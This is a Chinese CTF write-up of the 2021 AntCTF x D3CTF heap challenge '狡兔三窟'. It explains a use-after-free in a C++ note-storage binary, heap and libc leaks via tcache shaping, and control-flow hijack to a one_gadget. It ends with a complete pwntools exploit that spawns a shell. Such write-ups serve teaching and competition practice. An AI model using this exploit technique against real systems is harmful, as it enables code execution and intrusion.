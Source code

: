 > 原文链接: https://www.anquanke.com//post/id/234213 


# 2021 AntCTF x D3CTF 狡兔三窟题解


                                阅读量   
                                **128913**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t01bc5aa926515c064d.jpg)](https://p1.ssl.qhimg.com/t01bc5aa926515c064d.jpg)



这道题比赛的时候，只有三支队伍做出来，其实只要把程序逻辑分析透彻，这道题并不是很难。所以现在放一下这道题题解。



## 程序逻辑

```
case 1:
        NoteStorageImpl::editHouse(chunk11);
        break;
      case 2:
        NoteStorageImpl::saveHouse(chunk11);
        break;
      case 3:
        NoteStorageImpl::backup(chunk11);
        break;
      case 4:
        NoteStorageImpl::encourage(chunk11);
        break;
      case 5:
        NoteStorageImpl::delHouse(chunk11);
        break;
      case 6:
        NoteStorageImpl::show(chunk11);
        break;
```

提供了 6种功能，Edit可以输入数据到堆块，存储机制类似 vector，输入超出当前堆块时，会将申请更大的堆块，并将数据拷贝到新堆块，释放旧堆块；此外 Edit里有在释放第一个存储堆块后，还可以继续输入第二个存储堆块，也有一次 clear机会，可以从头重新输入数据。Save功能，会**申请一个与当前存储数据的堆块数据内容大小的堆块**，并将数据拷贝到新堆块，更新管理结构体。backup会将第一个存储数据的堆块的地址放入一个 0x20的堆块 偏移 0x8的位置 存储。delete功能，当执行了backup后，可以删掉第一个存储数据堆块。show只有当执行了delete功能后，才会输出第一个存储数据堆块的起始 8字节数据 指向的地址信息。

这里，还有一个 encourage功能如下，可以看到有一个很明显的后门，会调用 back_up堆块偏移 0x8数据 指向的 地址 的值。这里也就是 会调用 第一个存储数据堆块 起始 8字节数据指向的地址。

```
__int64 __fastcall NoteDBImpl::getEncourage(NoteDBImpl *back_chunk)
`{`
  __int64 buf_chunk; // rax

  buf_chunk = **((unsigned int **)back_chunk + 1);
  if ( (_DWORD)buf_chunk )
    buf_chunk = (***((__int64 (__fastcall ****)(_QWORD))back_chunk + 1))(*((_QWORD *)back_chunk + 1));
  return buf_chunk;
`}`
```

然后，堆块布局如下所示。init_chunk会存储三个堆块地址，依次是 第一个存储数据结构体地址，第二个存储数据结构体地址，第三个是 bakc_up_chunk 结构体地址。 而存储数据结构体会依次存储 首地址存储 一个数据地址，后面是依次是存储数据会使用的 begin_ptr、ptr和 end_ptr指针。而 back_up_chunk在 0x8时会存储 第一个存储数据结构体地址。

```
init_chunk:
pwndbg&gt; x/20xg 0x55555576de60
0x55555576de60:    0x0000000000000000    0x0000000000000021
0x55555576de70:    0x000055555576de90    0x000055555576e220    // chunk1, chunk2
chunk1:    
0x55555576de80:    0x000055555576e200    0x0000000000000351    //back_up_chunk
0x55555576de90:    0x000055555575ac78    0x0000000000000000    // addr
0x55555576dea0:    0x000055555576e200    0x000055555576e200    // begin_ptr  ptr
0x55555576deb0:    0x000055555576e205    0x0000000000000000    // end_ptr 
chunk2:
pwndbg&gt; x/20xg 0x55555576e210
0x55555576e210:    0x0000000000000000    0x0000000000000351
0x55555576e220:    0x000055555575ac78    0x0000000000000000    // addr  
0x55555576e230:    0x000055555576e590    0x000055555576e590    // begin_ptr ptr
0x55555576e240:    0x000055555576e595    0x0000000000000000    // end_ptr
back_up:
pwndbg&gt; x/20xg 0x55555576e200
0x55555576e1f0:    0x0000000000000000    0x0000000000000021
0x55555576e200:    0x0000000000000000    0x000055555576de90    // chunk1_addr
```



## 程序漏洞

程序漏洞总体上是一个 uaf漏洞。从上面功能可知，需要先 执行 back_up后，才能执行 delete和 show功能。而 back_up会存储第一个 存储数据结构体地址。当我们 delete了第一个 存储数据结构体(0x350)后，back_up_chunk中并不会将 存储的地址 赋值为 0。也就导致我们可以 通过 show函数 泄露被释放的 第一个存储数据结构体堆块(0x350) 数据。

```
int __fastcall NoteDBImpl::gift(NoteDBImpl *back_up_chunk)
`{`
  int result; // eax

  result = *(unsigned __int8 *)back_up_chunk;
  if ( (_BYTE)result )
    result = puts(*((const char **)back_up_chunk + 1));
  return result;
`}`
```

而这里需要注意，如果直接释放 0x350堆块，那么该堆块的 前8字节 也即 next指针会被赋值为0，那么输出时就无输出内容。所以这里，我们需要想办法 在 0x350 tcache链中，先释放一个 0x350堆块，这样 当 delete时，第一个存储数据结构体 next处会存储堆地址。那么我们如何在 delete之前先释放 一个 0x350堆块。这里需要用到 vector机制。前文讲到 vector会自动根据输入内容 申请释放堆块。但是这里，如果我们直接 输入 0x350大小的数据，其会申请 0x500大小的堆块，而不是 0x350。是因为 vector**每次增大堆块时，会申请比之前堆块大一倍的堆块**。这里我们的旧堆块 是 0x290，其一倍也就是 0x500。所以，我们首先需要将 vector原有堆块大小改为 0x1a0，然后扩大堆块时即会申请 0x350。而这里将原有堆块大小改为 0x1a0的方法是 通过 save功能，其会申请一个原有堆块数据大小的新堆块，并更新到 存储管理结构体。这样原有堆块即被我们改为了 0x1a0大小，再增大数据时，就改为了 0x350数据块。最后 delete时，就会释放两个 0x350堆块到 tcache中。这样我们就能成功 泄露 堆块地址。

然后，我们还要泄露 libc地址。这里首先需要注意到 第一个存储数据堆块结构体偏移 0x1b8的地方存储了 malloc的地址。那么这里只需要将这个 malloc地址输出，就能得到 libc地址了。

```
void __fastcall NoteImpl::NoteImpl(NoteImpl *this)
`{`
  Note::Note(this);
  *(_QWORD *)this = &amp;off_206C78;
  *((_BYTE *)this + 8) = 0;
  std::vector&lt;char&gt;::vector((char *)this + 16);
  std::vector&lt;char&gt;::vector((char *)this + 416);
  *((_QWORD *)this + 55) = &amp;malloc;
  std::vector&lt;char&gt;::reserve((char *)this + 416, 5LL);
  std::vector&lt;char&gt;::reserve((char *)this + 16, 5LL);
`}`
```

由于之前已经将 该堆块释放到 0x350的 tcache中，所以，这里我们再次 利用上面的方法 用第二个存储数据管理结构体 把该堆块申请出来，并填充 0x1b8的数据，再利用 show得到 libc地址。

最后，我们只需要利用 clear，从头将 存储结构体 块首指向 偏移 0x8的地址，并在 0x8的地址处放上 gadget地址，即可实现 getshel。



## EXP

```
from pwn import *

binary_name = './easycpp'
debug = 1
if debug == 1:
    #p = process([filename], env=`{`"LD_PRELOAD":"./libc-2.27.so"`}`)
    p = process(binary_name)
    #libc = ELF('./libc-2.27.so')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    elf = ELF(binary_name)
else:
    p = remote('106.14.216.214', 27807)
    libc = ELF('./libc-2.27.so')

gadgets = [0x4f3d5, 0x4f432, 0x10a41c]
def Edit(ch, payload):
    p.sendlineafter('&gt;&gt; ', str(1))
    p.sendlineafter('clear it?(y/N)', ch)
    p.sendlineafter('q to quit):\n', payload)

def Save():
    p.sendlineafter('&gt;&gt; ', str(2))

def Back_up():
    p.sendlineafter('&gt;&gt; ', str(3))

def Enc():
    p.sendlineafter('&gt;&gt; ', str(4))

def Delete():
    p.sendlineafter('&gt;&gt; ', str(5))

def Show():
    p.sendlineafter('&gt;&gt; ', str(6))


payload = 'a'*0x1a0+"q"
Edit('n', payload)
gdb.attach(p, 'bp $rebase(0x141e)')
Back_up()
Save()

payload = 'a'*0x1a0+"q"
Edit('n', payload)

Delete()

Show()
heap_addr = u64(p.recv(6).ljust(8, b'\x00'))
print('heap_addr:',hex(heap_addr))

payload = 'a'*0x1a0+'q'
Edit('n', payload)

Save()
print(' hajack chunk2')
payload = "a"*(0x1b8-0x1a0)+"q"
Edit('n', payload)
Show()
p.recvuntil('a'*0x1b8)
libc.address = u64(p.recv(6).ljust(8, b'\x00'))-libc.sym['malloc']

gadget = gadgets[2]+libc.address
print(hex(gadget))
payload = p64(heap_addr-0x2230+8)+p64(gadget)+"aaaq"
Edit('y', payload)

Enc()

p.interactive()
```
